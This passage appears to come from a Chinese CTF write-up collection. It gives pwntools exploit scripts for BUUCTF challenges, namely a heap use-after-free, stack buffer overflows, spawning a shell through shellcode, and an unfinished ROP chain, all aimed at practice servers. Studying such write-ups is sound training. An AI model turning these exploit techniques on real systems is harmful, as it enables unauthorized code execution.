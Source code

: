 ```python

add(0x18, b'colin')
add(0x18, b'colin')
delete(0)
delete(1)
add(0x8, p32(0x8048945) + p32(0))
printc(0)
io.interactive()
```
# buu043-picoctf_2018_buffer overflow 1
```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 25573)
io.sendline(cyclic(40+4) + p32(0x80485CB))
io.interactive()
```
# buu044-jarvisoj_test_your_memory
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27588)
io.sendline(cyclic(19+4) + p32(0x8048440) + p32(0x80487E0)*2)
io.interactive()
```
# buu045-mrctf2020_shellcode
```python
from pwn import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26987)
io.sendline(asm(shellcraft.amd64.sh()))
io.interactive()
```
# buu046-inndy_rop
首先把'/bin/sh'写到bss段然后系统调用。
```python
from pwn import *
context.log_level='debug'
io = process('./pwn')
# io = remote('node4.buuoj.cn', 25928)
int80 = 0x806C943
popeax_ret = 0x80B8016
popebx_edx_ret = 0x806ECD9
popecx_ret = 0x80DE769
addesp0x14_ret = 0x807A75D
bss = 0x80EBFD4
read = 0x806D290
payload = cyclic(12 + 4)

payload += p32(read)			# call read()
payload += p32(addesp0x14_ret)	# return address, add esp to execute latter ROP
payload += p32(0)				# arg #1 of read(): stdin
payload += p32(bss)				# arg #2 of read(): a bss address
payload += p32(0x8)				# arg #3 of read(): read length
payload += p32(0) * 2

```